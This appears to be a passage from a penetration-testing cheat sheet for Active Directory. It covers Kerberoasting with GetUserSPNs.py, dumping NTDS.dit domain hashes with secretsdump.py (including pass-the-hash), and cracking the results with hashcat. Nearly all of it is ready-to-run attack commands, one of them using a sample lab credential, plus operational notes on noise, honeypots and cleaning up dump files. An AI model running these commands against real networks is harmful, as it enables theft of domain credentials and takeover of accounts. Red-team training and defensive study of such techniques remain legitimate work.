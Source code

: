 ```bash
# Using GetUserSPNs.py
# Basic enumeration and hash request
GetUserSPNs.py domain/username:password -dc-ip DC-IP -request
GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip 10.0.0.3 -request

# Save output to crack
GetUserSPNs.py domain/username:password -dc-ip DC-IP -request -output hashes.txt

# Crack with hashcat
hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt --force
```

OPERATIONAL NOTES:
- Can be executed with any domain user account
- Look for service accounts that might have high privileges
- Monitor for account lockouts during cracking
- Some service accounts might be honeypots
- Can be noisy if many requests are made quickly

##### Dumping NTDS.dit
Prerequisites:
- Domain Admin access
- Network access to DC
- Sufficient disk space for output

```bash
# Using secretsdump.py
# Dump NTDS with all hashes
secretsdump.py domain/username:'password'@DC-IP

# Dump NTDS with just NTLM hashes (smaller output)
secretsdump.py domain/username:'password'@DC-IP -just-dc-ntlm

# Using hash instead of password
secretsdump.py -hashes LM:NT domain/username@DC-IP

# Save output for offline processing
secretsdump.py domain/username:'password'@DC-IP -output ntds_dump

# Extract specific information
grep -i "administrator" ntds_dump.ntds
```

PARSING AND CRACKING:
```bash
# Extract NT hashes for cracking
cat ntds_dump.ntds | grep -v '31d6' | cut -d ':' -f 4 > nt_hashes.txt

# Crack with hashcat
hashcat -m 1000 nt_hashes.txt /usr/share/wordlists/rockyou.txt --force
```

OPERATIONAL NOTES:
- Creates a local copy of NTDS.dit - ensure sufficient space
- Can generate significant network traffic
- Consider extracting only needed hashes
- Highly detectable activity
- Clean up dump files after use
- May require multiple attempts if initial dump fails
